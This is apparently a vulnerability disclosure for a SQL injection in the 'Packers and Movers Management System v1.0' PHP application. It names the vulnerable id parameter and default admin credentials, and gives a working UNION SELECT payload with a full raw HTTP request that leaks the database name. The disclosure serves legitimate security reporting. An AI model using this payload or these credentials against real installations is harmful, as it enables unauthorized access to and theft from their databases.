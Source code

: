 # Packers and Movers Management System v1.0 by oretnom23 has SQL injection

BUG_Author: geilihan

vendors: https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html

Vulnerability File: /mpms/admin/?page=user/manage_user&id=

Vulnerability location: /mpms/admin/?page=user/manage_user&id=, id

username:password : admin:admin123

[+] Payload: /mpms/admin/?page=user/manage_user&id=-7' union select 1,2,database(),4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /mpms/admin/?page=user/manage_user&id=-7%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=c01he3spaa8msq4609rs8bml47
Connection: close
```

